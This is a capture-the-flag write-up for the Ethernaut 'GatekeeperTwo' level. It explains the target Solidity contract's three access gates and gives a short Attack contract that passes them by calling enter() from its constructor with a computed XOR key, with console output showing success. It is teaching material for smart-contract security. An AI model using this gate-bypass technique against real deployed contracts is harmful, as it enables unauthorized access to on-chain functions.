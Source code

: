 # Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

Challenge's message:

> This gatekeeper introduces a few new challenges. Register as an entrant to pass this level. - Remember what you've learned from getting past the first gatekeeper the first gate is the same. - The assembly keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [here](https://docs.soliditylang.org/en/v0.4.23/assembly.html) for more information. The extcodesize call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf). - The ^ character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [here](https://docs.soliditylang.org/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.


The *GatekeeperTwo* contract implements a gatekeeping mechanism that restricts entry to a certain function based on three specific conditions. There is a public address entrant variable that stores the address of the entrant who successfully passes the gatekeeping conditions.

### Modifiers

#### gateOne()

This modifier enforces a condition that the *msg.sender* (the caller of the function) is not the same as the *tx.origin* (the origin of the transaction). In other words, it ensures that the function is not called directly but is being called through another contract or function.

#### gateTwo()

This modifier checks if the caller of the function has an external code size of zero. It does this by using inline assembly to retrieve the external code size of the caller's address. If the code size is zero, the function execution proceeds, and if not, it throws an error. This condition prevents the function from being called by another contract.

#### gateThree()

This modifier takes a parameter *_gateKey* of type *bytes8* and enforces one condition:

The condition checks if the XOR operation between the first 8 bytes of the keccak256 hash of the *msg.sender* address and the *_gateKey* is equal to the maximum value of type *uint64*. If this condition is not met, the function execution throws an error. This condition introduces a cryptographic check on the *_gateKey* to verify the authenticity of the entrant.


In the enter() function is the entry point of the contract and is used to gain access based on the gatekeeping conditions. It takes a parameter _gateKey of type bytes8 which is used in the gateThree modifier. The function first applies the *gateOne*, *gateTwo*, and *gateThree* modifiers to enforce the respective conditions. If all the conditions are met, the *entrant* variable is updated with the tx.origin (the origin of the transaction) and the function returns *true*.

It's important to note that the code uses low-level assembly and cryptographic operations to perform the gatekeeping checks, which may have been implemented for specific security requirements or anti-cheat mechanisms. The exact rationale behind the conditions is not provided in the code, and further context would be necessary to understand the full purpose and security implications of the gatekeeping mechanism.


# Subverting


```solidity
pragma solidity ^0.8.17;

import './GatekeeperTwo.sol';

contract Attack{

    GatekeeperTwo target;

    constructor(address _target){
        target = GatekeeperTwo(_target);
        bytes8 gateKey = bytes8(keccak256(abi.encodePacked(address(this)))) ^ bytes8(type(uint64).max);
        target.enter(gateKey);  
    }
}
```

```shell
await contract.entrant()
'0x0000000000000000000000000000000000000000'
```

```shell
await contract.entrant()
'0x9C84d84b46971Faf8B480aB116b7f5391D630fA1'
```

0age's,who is owner of the challenge, message:

> Way to go! Now that you can get past the gatekeeper, you have what it takes to join theCyber, a decentralized club on the Ethereum mainnet. Get a passphrase by contacting the creator on reddit or via email and use it to register with the contract at gatekeepertwo.thecyber.eth (be aware that only the first 128 entrants will be accepted by the contract).


**_by wasny0ps_**

